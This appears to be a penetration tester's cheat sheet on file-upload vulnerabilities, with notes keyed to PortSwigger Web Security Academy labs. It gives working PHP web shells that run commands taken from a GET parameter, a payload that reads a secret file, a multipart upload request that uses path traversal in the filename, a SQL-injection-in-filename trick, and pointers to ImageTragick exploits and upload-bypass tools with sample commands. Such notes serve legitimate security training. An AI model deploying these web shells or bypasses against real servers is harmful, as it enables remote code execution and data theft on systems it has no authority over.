 ```bash
# If web app allows for zip upload then rename the file to pwd.jpg bcoz developer handle it via command
# upload the file using SQL command 'sleep(10).jpg you may achieve SQL if image directly saves to DB.

# Advance Bypassing techniques
# Imagetragick aka ImageMagick:
<https://mukarramkhalid.com/imagemagick-imagetragick-exploit/>
<https://github.com/neex/gifoeb>
    
# Upload file tool
<https://github.com/almandin/fuxploider>
python3 fuxploider.py --url <https://example.com> --not-regex "wrong file type"

<https://github.com/sAjibuu/upload_bypass>
```

### Fast tests

```php
<?php echo system('id'); ?>
<?php echo system($_GET['command']); ?> --> GET /example/exploit.php?command=id HTTP/1.1
```

- [ ] **[Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)**
    
    ```jsx
    Try change the Content-Type to image/jpeg 
    ```
    
- [ ] **[Web shell upload via path traversal](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)**
    
    ```php
    <?php echo file_get_contents('/home/carlos/secret'); ?>
    try Directory traversal
    In Burp Repeater, go to the tab containing the POST /my-account/avatar request and find the part of the request body that relates to your PHP file. In the Content-Disposition header, change the filename to include a directory traversal sequence:
    ------WebKitFormBoundaryUsapExPwh4U36YIQ
    Content-Disposition: form-data; name="avatar"; filename="exploit.php"
    Content-Type: application/octet-stream
    
    <?php echo file_get_contents('/home/carlos/secret'); ?>
    ---------------------------------------------------------
    try
    filename="..%2fexploit.php"
    ```
    
- [ ] **[Web shell upload via extension blacklist bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass) [Overriding the server configuration]**
    
